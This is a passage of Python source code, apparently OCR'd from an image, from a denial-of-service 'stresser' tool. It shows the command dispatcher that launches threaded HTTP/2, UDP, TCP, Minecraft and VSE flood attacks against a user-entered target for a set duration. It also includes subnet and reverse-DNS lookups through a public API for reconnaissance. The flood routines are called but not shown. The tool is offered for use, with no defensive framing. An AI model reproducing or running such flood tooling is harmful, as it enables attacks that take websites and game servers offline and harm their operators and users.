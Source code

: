        timer.start()
        timer.join()
    elif command == "http2":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackhttp2, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()        
    elif command == "stellar":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackSTELLAR, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "udp" or command == "UDP":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runsender, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "tcp" or command == "TCP":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runflooder, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "mine" or command == "MINE":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runmine, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "vse" or command == "VSE":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runvse, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()        

##############################################################################################     
    elif command == "subnet":
        stdout.write(Fore.MAGENTA+" [>] "+Fore.WHITE+"IP "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
        target = input()
        try:
            r = requests.get(f"https://api.hackertarget.com/subnetcalc/?q={target}")
            print(r.text)
        except:
            print('An error has occurred while sending the request to the API!')                   
            
    elif command == "dns":
        stdout.write(Fore.MAGENTA+" [>] "+Fore.WHITE+"IP/DOMAIN "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
        target = input()
        try:
            r = requests.get(f"https://api.hackertarget.com/reversedns/?q={target}")
            print(r.text)
        except:
            print('An error has occurred while sending the request to the API!')
            